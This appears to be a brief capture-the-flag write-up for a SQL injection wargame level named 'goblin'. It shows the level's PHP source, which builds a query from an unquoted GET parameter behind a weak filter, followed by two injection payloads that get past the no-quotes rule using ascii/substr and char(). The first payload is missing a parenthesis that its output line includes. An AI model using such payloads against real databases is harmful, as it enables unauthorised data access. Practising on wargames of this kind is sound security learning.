 ```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

PAYLOAD 1: ?no=-1 or ascii(substr(id,1,1)=97
OUTPUT: select id from prob_goblin where id='guest' and no=-1 or ascii(substr(id,1,1))=97

PAYLOAD 2: ?no=-1 or id=char(97,100,109,105,110)
OUTPUT: query : select id from prob_goblin where id='guest' and no=-1 or id=char(97, 100, 109, 105, 110)

Goblin clear 
